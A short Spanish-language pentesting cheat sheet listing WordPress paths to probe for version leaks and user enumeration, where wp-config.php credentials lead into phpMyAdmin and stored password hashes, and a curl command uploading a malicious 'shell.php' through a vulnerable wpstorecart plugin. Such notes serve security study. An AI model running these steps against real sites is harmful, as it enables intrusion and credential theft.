 
## Rutas típicas de WordPress en la web 

```python
/readme.html                         # Muestra info del WordPress 'Version, license.txt'
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-admin/wp-login.php
/wp-admin/login.php
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 
/?author=1                           # Enumeracion manual de usuarios 
```

## Ruta típica en consola

```python 
/var/www/html/                 # Ruta donde se encuentra 'phpinfo.php | wordpress | index.html'

# Archivos que se encuentran en 'admin', este tiene la configuracion del 'phpadmin'

# Archivos que se enecuentran dentro del directorio 'WordPress'
wordpress.conf                 # Archivo con configuracion del WordPress y se encuentra en /etc/apache2/sites-enabled/ 
wp-config.php                  # Archivo con credenciales de acceso a la DB, se encuentra en /var/www/html, o en la ruta /usr/share/wordpress/ y contiene todas las configuraciones de Wordpress

	/phpmyadmin               # Con las credenciales encontradas en 'wp-config' podemos ingresar a la web y su DB como el usuario 'root'. En la DB de la web 'phpmyadmin' podemos encontrar usuarios y sus hashes para poder ingresar a 'WordPress'

wp-settings.php                # Se encarga de hacer la subida de los plugins

/wp-content/uploads/
/wp-admin/                     # Directorio que contiene el formulario y se encuentra en /var/www/html/wordpress/ 
/wp-content/                   # Directorio que contiene los 'plugins, themes'
Nota: No se cuenta el 'index.php' como tema o plugin, ademas, si existe un 'plugin' que puede ser vulnerable, lo podemos explotar con 'Metasploit'
```

## Subir un archivo a WordPress 

```bash 
# Se puede subir un archivo malicioso con extension PHP si en el Wordpress esta el plugin con la vulnerabilidad que lo permite

❯ curl -F "Filedata=@./shell.php" https://IP/wp-content/plugins/wpstorecart/php/upload.php     # Subimos un archivo PHP malicioso llamado 'shell.php'
```
